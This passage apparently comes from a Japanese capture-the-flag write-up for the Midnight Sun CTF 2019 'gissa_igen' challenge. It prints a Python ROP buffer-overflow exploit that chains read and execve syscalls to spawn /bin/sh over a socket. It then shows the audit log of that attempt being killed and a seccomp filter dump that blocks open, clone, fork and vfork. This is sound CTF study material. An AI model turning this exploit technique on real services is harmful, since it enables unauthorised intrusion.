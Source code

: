 ```python

rop_pop_rax_rdi_rsi = proc_base + 0xc21
rop_pop_rdx_r9_r8_rdi_rsi = proc_base + 0xc1d
rop_syscall = proc_base + 0xbd9

# get the shell!
payload = b'A' * 0x8c
payload += p32(0xdeadbeef) # size
payload += b'A' * 0x18

payload += p64(rop_pop_rdx_r9_r8_rdi_rsi)
payload += p64(8)                  # count
payload += b'A' * (8 * 4)
payload += p64(rop_pop_rax_rdi_rsi)
payload += p64(0)                    # SYS_read
payload += p64(0)                    # stdin
payload += p64(proc_base + 0x202000) # buf
payload += p64(rop_syscall)          # syscall; ret;

payload += p64(rop_pop_rdx_r9_r8_rdi_rsi)
payload += p64(0)                  # envp
payload += b'A' * (8 * 4)
payload += p64(rop_pop_rax_rdi_rsi)
payload += p64(59)                   # SYS_execve
payload += p64(proc_base + 0x202000) # /bin/sh
payload += p64(0)                    # argv
payload += p64(rop_syscall)          # syscall; ret;

_ = input()
sock.recvuntil(": ")
sock.sendline(payload)

sock.send("/bin/sh\x00")

sock.interactive()
```

これで万事休すと思いきや罠がありました。

```
[15460.544038] audit: type=1326 audit(1557321134.524:45): auid=1000 uid=1000 gid=1000 ses=3 subj==unconfined pid=19218 comm="gissa_igen" exe="/home/ptr/colony/writeups/2019/Midnight_Sun_CTF_2019_Quals/gissa2/gissa_igen" sig=31 arch=c000003e syscall=59 compat=0 ip=0x55806eebabdb code=0x0
```

はー、seccompが有効やん。完全に忘れてた。
seccomp-toolsにかけます。
```
$ seccomp-tools dump ./gissa_igen
...

 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x01 0x00 0xc000003e  if (A == ARCH_X86_64) goto 0003
 0002: 0x06 0x00 0x00 0x00000000  return KILL
 0003: 0x20 0x00 0x00 0x00000000  A = sys_number
 0004: 0x15 0x00 0x01 0x00000002  if (A != open) goto 0006
 0005: 0x06 0x00 0x00 0x00000000  return KILL
 0006: 0x15 0x00 0x01 0x00000038  if (A != clone) goto 0008
 0007: 0x06 0x00 0x00 0x00000000  return KILL
 0008: 0x15 0x00 0x01 0x00000039  if (A != fork) goto 0010
 0009: 0x06 0x00 0x00 0x00000000  return KILL
 0010: 0x15 0x00 0x01 0x0000003a  if (A != vfork) goto 0012
 0011: 0x06 0x00 0x00 0x00000000  return KILL
```